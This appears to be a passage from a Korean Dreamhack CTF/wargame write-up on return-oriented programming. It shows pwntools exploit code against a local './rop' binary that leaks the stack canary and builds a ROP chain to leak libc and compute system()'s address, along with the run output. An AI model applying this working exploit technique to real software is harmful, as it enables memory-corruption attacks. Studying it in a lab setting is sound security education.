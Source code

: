 #

**카나리 우회**

```python
from pwn import *

def slog(name, addr):
        return success(": ".join([name, hex(addr)]))

p = process("./rop")
e = ELF("./rop")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
r = ROP(e)

# [1] Leak Canary
buf = b'A'*57
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
canary = u64(b'\x00'+p.recvn(7))
slog("Canary", canary)
```

#

```bash
[+] Starting local process './rop': pid 119
[*] '/home/ion/dreamhack/Exploit_Tech_Return_Oriented_Programming/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Canary: 0x5c9766f641235900
[*] Stopped process './rop' (pid 119)
```

<br>

**system 함수 주소 계산**

```python
# [2] Get system address
read_plt = e.plt['read']
read_got = e.got['read']
puts_plt = e.plt['puts']
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]

payload = b'A'*56 + p64(canary) + b'B'*8

payload += p64(pop_rdi) + p64(read_got)
payload += p64(puts_plt)

p.sendafter("Buf: ", payload)   # puts()와 read got를 이용해서 read() 주소 출력
read = u64(p.recvn(6)+b'\x00'*2)        # 화면에 출력된 read() 주소를 read에 대입
lb = read - libc.symbols["read"]        # libc base = read 주소 - read symbols
system = lb + libc.symbols["system"]    # system = libc base + system symbols

slog("read", read)
slog("libc_base", lb)
slog("system", system)
```
